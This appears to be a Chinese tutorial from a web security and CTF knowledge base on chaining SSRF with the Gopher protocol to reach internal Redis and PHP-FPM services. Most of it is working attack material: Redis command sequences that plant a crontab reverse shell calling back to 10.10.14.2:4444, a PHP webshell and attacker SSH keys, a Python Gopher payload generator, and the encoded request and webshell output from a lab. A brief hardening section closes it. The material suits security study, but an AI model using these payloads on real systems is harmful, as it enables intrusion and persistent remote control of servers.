



# 🚀 Gopher 武器化穿透实战：内网 Redis 未授权 RCE 与 PHP-FPM FastCGI 二进制攻击

> **杀伤链核心**：在企业内网中，大量的运维与后端服务（如 Redis 缓存、PHP-FPM、Memcached、MySQL）为了追求通信性能与微服务交互效率，**默认不配置强密码认证，且默认信任内网 IP 发来的所有 TCP 请求**！
> 外部攻击者虽然无法直接路由到内网 IP，但一旦发现 SSRF 漏洞，结合**“万协议之母” Gopher 协议**，即可在应用层直接封装任意复杂 TCP 二进制/文本协议报文，完成从“内网端口探测”到“直接拿到 Root 权限”的绝杀一跃！

---


> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。

## 一、Gopher 协议伪造应用层报文的数据流转模型



---

## 二、双重 URL 编码（Double URL Encode）陷阱与终极原理

在利用 Gopher 构造 Payload 时，**编码层级错误是 90% 攻击失败的根源**！

### 🔍 为什么 GET 请求必须使用二次 URL 编码？



> [!CAUTION]
> **致命陷阱**：
> 如果你只进行了一次 URL 编码（发送 `%0d%0a`）：
> 1. PHP 在接收到 GET 请求时，其内核自动做了一次 URL 解码，将变量转换为**真实的内存换行符 `\r\n`**！
> 2. 当 `curl_setopt($ch, CURLOPT_URL, $url)` 接收到包含真实换行符的字符串时，`libcurl` 认为这是一个非法的 HTTP/URL 字符，直接抛出 `curl_exec() failed: URL contains invalid control characters` 异常并终止请求！
> **因此，在通过 HTTP GET 传递 Gopher 载荷时，必须确保换行符经过二次编码（`%250d%250a`）！**

---

## 三、利用 Gopher 打内网 Redis 未授权（全维度利用链）

Redis 采用 RESP（REdis Serialization Protocol）协议通信，但同时具备强大的**行内文本协议兼容性（Inline Command Parsing）**：只要 TCP 数据包中按 `\r\n` 分隔指令，即便出现非标准字符，Redis 也会跳过错误行继续向下执行后续命令！

### 1. 向量一：写入 Linux 定时任务（Crontab）反弹 Shell（最通用）

```text
flushall
set 1 "\n\n* * * * * bash -i >& /dev/tcp/10.10.14.2/4444 0>&1\n\n"
config set dir /var/spool/cron/crontabs/
config set dbfilename root
save
quit
```

#### 逐行核心参数深度解析：
* `flushall`：清空当前数据库，避免原存数据干扰新生成的 rdb 文件大小。
* `set 1 "\n\n* * * ...\n\n"`：向键 `1` 写入反弹 Shell 脚本。**前后必须保留多余的换行符 `\n`**，因为 Redis 将内存 dump 到磁盘时会附带二进制文件头尾（CRC64、RDB 魔数），Linux 的 `cron` 守护进程在解析文件时，只有前后换行隔离的行才能被作为合法任务执行，避免因语法错误崩溃！

> [!NOTE] 💡 小白扫盲：逐符号拆解经典反弹 Shell 核心命令
> 核心命令：`bash -i >& /dev/tcp/10.10.14.2/4444 0>&1`
> * **`* * * * *`（Linux Crontab 五星时间调度）**：
>   * 在 Linux 定时任务语法中，5 个星号分别代表：`分 时 日 月 周`。
>   * 5 个全为 `*` 代表**“每隔 1 分钟自动无休止执行一次”**！一旦写入，服务器每分钟都会自动向黑客主机发起反弹连接！
> * **`bash -i`（交互式 Shell）**：
>   * `-i` 即 Interactive。指示系统启动一个具备交互提示符（如 `root@server:#`）的标准终端命令行环境。
> * **`>&`（输出双重重定向）**：
>   * 将标准输出（`1`，命令执行成功的回显）与标准错误（`2`，执行失败的报错信息）**同时重定向**到后面的网络目标。
> * **`/dev/tcp/10.10.14.2/4444`（神奇的 Bash 内置虚拟网络套接字）**：
>   * **小白疑问**：Linux 磁盘里真的有 `/dev/tcp` 这个文件吗？
>   * **底层真相**：如果你去硬盘上找，根本不存在 `/dev/tcp` 这个实体文件！这是 **Bash 解释器独创的特殊功能**：当 Bash 发现重定向目标符合 `/dev/tcp/IP/端口` 格式时，会自动调用底层的 `socket()` 系统调用，**在内存中凭空与目标服务器（10.10.14.2:4444）建立一条纯正的 TCP 网络连接通道**！
> * **`0>&1`（输入流管道绑定）**：
>   * `0` 代表标准输入（stdin，即键盘打字输入）；`1` 代表标准输出（stdout，即刚才连接上的 TCP 通道）；
>   * `0>&1` 意味着：**将键盘输入流与刚才建立的 TCP 连接绑在一起**！
>   * **通俗终极效果**：受害服务器在后台悄悄联网连接黑客的电脑（10.10.14.2 的 4444 端口），黑客在自己电脑的监听窗口敲下任何命令（如 `whoami`、`ls`），都会像是在受害机器本地键盘打字一样直接执行，并把执行结果瞬间回传到黑客屏幕上，彻底夺取服务器控制权！

* `config set dir /var/spool/cron/crontabs/`：修改数据文件保存目录为 root 用户的定时任务目录（CentOS 为 `/var/spool/cron/`，Debian/Ubuntu 为 `/var/spool/cron/crontabs/`）。
* `config set dbfilename root`：修改保存的文件名为 `root`。
* `save`：强制将内存快照立即持久化同步写入目标文件！

---

### 2. 向量二：写入 Web 目录 PHP WebShell

若已知目标 Web 物理路径且具有可写权限：
```text
flushall
config set dir /var/www/html/
config set dbfilename shell.php
set 1 "<?php eval(\$_POST['cmd']);?>"
save
quit
```

---

### 3. 向量三：写入 SSH 密钥（免密登录）

```text
config set dir /root/.ssh/
config set dbfilename authorized_keys
set 1 "\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQ... root@kali\n\n"
save
quit
```

---

### 4. 向量四：Redis 4.x/5.x 主从复制 RCE（突破无写权限限制）

在现代 Linux 系统中，Redis 往往以低权限账户 `redis` 运行，无法向 `/var/spool/cron` 或 `/root/.ssh` 写入文件。此时使用**主从复制动态加载恶意动态链接库（.so）**实现绝对突破：
1. 攻击者在公网开启恶意 Rogue Redis 服务（伪装成 Master）；
2. 通过 Gopher 发送 `SLAVEOF <Rogue_IP> <Port>`，强迫目标 Redis 成为从节点；
3. 伪装主节点向受害节点同步恶意的 `exp.so` 模块并存入 `/tmp/exp.so`；
4. 发送 `MODULE LOAD /tmp/exp.so` 动态载入模块；
5. 执行 `system.exec "cat /flag"` 达成无条件 RCE！

---

## 四、利用 Gopher 打内网 PHP-FPM FastCGI（9000 端口）达成 RCE

### 1. FastCGI 协议机制与攻击原理

很多 PHP 架构采用 Nginx + PHP-FPM 模式，PHP-FPM 默认监听在本地 `127.0.0.1:9000`。
* Nginx 与 PHP-FPM 之间通过标准的 **FastCGI 二进制协议** 交换数据。
* FastCGI 数据包由多个固定头部（Header）和消息体（Body）构成（如 `FCGI_BEGIN_REQUEST`, `FCGI_PARAMS`, `FCGI_STDIN`）。
* **攻击利用突破口**：
  在 `FCGI_PARAMS` 环境变量字典中，攻击者可以强行注入以下两条 PHP 运行时配置指令：
  * **`PHP_VALUE: auto_prepend_file = php://input`**
  * **`PHP_ADMIN_VALUE: allow_url_include = On`**
  当这两项被注入后，**PHP 引擎在执行任何脚本前，都会自动将本次 HTTP POST 的请求体（`php://input`，即 `FCGI_STDIN`）作为 PHP 源码解析包含！**

---

### 2. FastCGI 二进制攻击报文结构逐字段拆解



#### 关键约束条件：
* **`SCRIPT_FILENAME` 必须指向一个绝对路径下且真实存在的 `.php` 文件**（例如默认的 `/var/www/html/index.php` 或 `/usr/share/nginx/html/index.php`），否则 PHP-FPM 会直接响应 `File not found.` 拒绝进入执行上下文！

---

## 五、CTF 实战靶场案例复现（SSRF 连环绝杀）

### 靶场情境：内网穿透打 Redis 写入 WebShell

目标主页存在 SSRF 参数 `?url=`，前文已通过 `file:///proc/net/tcp` 探知 `127.0.0.1:6379` 存在未授权 Redis，且 Web 根目录为 `/var/www/html/`。

### 1. 编写自动化 Gopher Payload 生成脚本（Python 3）

```python
#!/usr/bin/env python3
import urllib.parse

# 1. 拟执行的 Redis 指令集
redis_commands = [
    "flushall",
    "config set dir /var/www/html",
    "config set dbfilename shell.php",
    'set 1 "<?php system($_GET[\'cmd\']);?>"',
    "save",
    "quit"
]

# 2. 格式化为 RESP 原始协议文本（每行以 \r\n 结尾）
payload = ""
for cmd in redis_commands:
    payload += cmd + "\r\n"

# 3. 第一次 URL 编码（将 \r\n 编码为 %0D%0A）
first_encoded = urllib.parse.quote(payload)

# 4. 组装 Gopher URL 基础格式（以 _ 占位）
gopher_base = f"gopher://127.0.0.1:6379/_{first_encoded}"

# 5. 第二次 URL 编码（用于通过 GET 参数传递，将 % 转化为 %25）
final_payload = urllib.parse.quote(gopher_base)

print("[+] Final Payload for GET Parameter:")
print(f"http://challenge.ctf:8080/ssrf.php?url={final_payload}")
```

### 2. HTTP 发包投递攻击

```http
GET /ssrf.php?url=gopher%3A//127.0.0.1%3A6379/_flushall%250D%250Aconfig%2520set%2520dir%2520/var/www/html%250D%250Aconfig%2520set%2520dbfilename%2520shell.php%250D%250Aset%25201%2520%22%253C%253Fphp%2520system%28%2524_GET%255B%27cmd%27%255D%29%253B%253F%253E%22%250D%250Asave%250D%250Aquit%250D%250A HTTP/1.1
Host: challenge.ctf:8080
User-Agent: Mozilla/5.0
```

### 3. 验证 WebShell 并读取 Flag

访问刚刚写入的后门文件：
```http
GET /shell.php?cmd=cat%20/flag HTTP/1.1
Host: challenge.ctf:8080

HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8

flag{g0ph3r_r3d1s_ssrf_t0_rc3_pwn3d!}
```
成功在几秒钟内完成从内网请求伪造到操作系统命令执行的完整攻击闭环！

---

## 六、防御与架构加固方案

1. **禁用 Gopher 协议**：
   在所有应用代码与中间件配置中，彻底移除对 `gopher://` 协议的支持：
   ```php
   curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);
   ```
2. **内网核心服务强制开启身份认证**：
   * Redis 配置文件设置 `requirepass YourComplexPassword`，并开启保护模式（`protected-mode yes`）。
   * 严禁 Redis 以 `root` 账户启动。
3. **网络拓扑微隔离（Micro-segmentation）**：
   通过防火墙（`iptables` 或云安全组）对 DMZ 区 Web 服务器到内网数据库的通信实施最小权限控制，阻断 Web 服务器对 `6379` (Redis) 与 `9000` (FastCGI) 的单向发包。

---

## 🔗 相关双向链接
- 上级模块：[[05-服务端请求伪造SSRF]]
- 前置协议：[[01-SSRF产生原理与支持协议矩阵(file、dict、gopher)]]
- 绕过演进：[[03-URL解析差异与绕过技巧（@、进制变换、DNS重绑定）]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
